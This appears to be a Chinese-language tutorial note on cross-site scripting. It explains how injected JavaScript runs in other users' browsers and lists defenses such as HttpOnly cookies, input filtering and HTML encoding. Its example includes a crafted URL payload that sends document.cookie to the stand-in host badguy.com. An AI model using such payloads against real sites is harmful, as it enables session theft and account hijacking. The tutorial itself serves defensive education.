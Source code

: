 # TODO:XSS 跨域脚本攻击(cross-site scripting)

注入攻击的一种，不会对服务器造成任何伤害，通过一些站内正常交互，例如发布评论等提交含有 JavaScript 内容的文本。
这时如果服务端没有过滤或转义这些脚本，含有 JavaScript 脚本的内容发布到了页面上，其它用户访问页面的时候就会运行这些脚本。
XSS 攻击的主要用于获取用户信息(例如 Cookie)、在页面插入内容(例如广告)或流量劫持等。

## 攻击场景 Dom-Based XSS

```HTML
<!-- http://victim.com网站 后台代码 -->
<html>
　　<title></title>
　　<body>
　　　　Results  for  <%Reequest.QueryString("term")%>
　　　　...
　　</body>
</html>
<!-- 攻击 -->
<!-- step1 建立后台用来偷取用户信息 -->
http://badguy.com
<!-- step2 发送恶意链接，可以通过邮件 qq等 -->
http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
<!-- 这时只要用户点击这个连接，那么生成的页面中就包含可以指向的代码片段 -->
<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
<!-- 这个代码自动运行把用户的cookie发送到了攻击者的网站 -->
```

## 应对策略

一些高级浏览器会自动拦截 XSS 攻击但是不能完全拦截。
防治的根本之道是过滤用户的输入，做`encode`处理，将其中的`<`、`>`、`'`、`"`、`;`之类的特殊字符进行编码。
在这方面前端无法测地解决，更多的需要后端进行处理。

1. 将重要的 cookie 标记为 http only, 这样的话 Javascript 中的 document.cookie 语句就不能获取到 cookie 了.
2. 只允许用户输入我们期望的数据。 例如：　年龄的 textbox 中，只允许用户输入数字。 而数字之外的字符都过滤掉。
3. 对数据进行 Html Encode 处理
4. 过滤或移除特殊的 Html 标签， 例如: <script>, <iframe> , &lt; for <, &gt; for >, &quot for
5. 过滤 JavaScript 事件的标签。例如 "onclick=", "onfocus" 等等。
